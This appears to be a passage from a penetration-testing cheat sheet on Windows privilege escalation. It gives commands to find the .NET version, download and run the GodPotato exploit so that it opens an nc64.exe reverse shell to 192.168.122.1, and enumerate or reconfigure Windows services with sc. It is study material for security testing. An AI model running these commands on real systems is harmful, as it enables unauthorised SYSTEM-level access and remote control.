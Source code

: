 - Understand the version of .NET with the following command and used the relative exploit.

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

**NOTE:** Replace `NETX` with `NET2` or `NET35` or `NET4` depending on the target's `.Net` version.

  - Download exploit. 

```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NETX.exe" -Outfile GodPotato.exe
```

- Execute exploit

```powershell
.\GodPotato.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```


### Windows Services
---

- Basic Commands (Powershell)

```powershell
Get-Service # Show current services

# Display specific properties for each service(`Can*` for what the current user can do)
Get-Service | Select-Object Displayname,Status,ServiceName,Can*

# Get binary path for each service that is currently running
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

- sc.exe

```cmd
sc query # get all services

sc query | findstr SERVICE_NAME # get all services (only their names)

sc stop <servicename> # stop a service

sc start <servicename> # start a service

sc qc <servicename> # get the config of a service

# change config of a service, requires admin
sc config <service> binPath="c:\example\path.exe"

# Get permissions of a service. returns a SDDL string
sc sdshow <servicename>
```
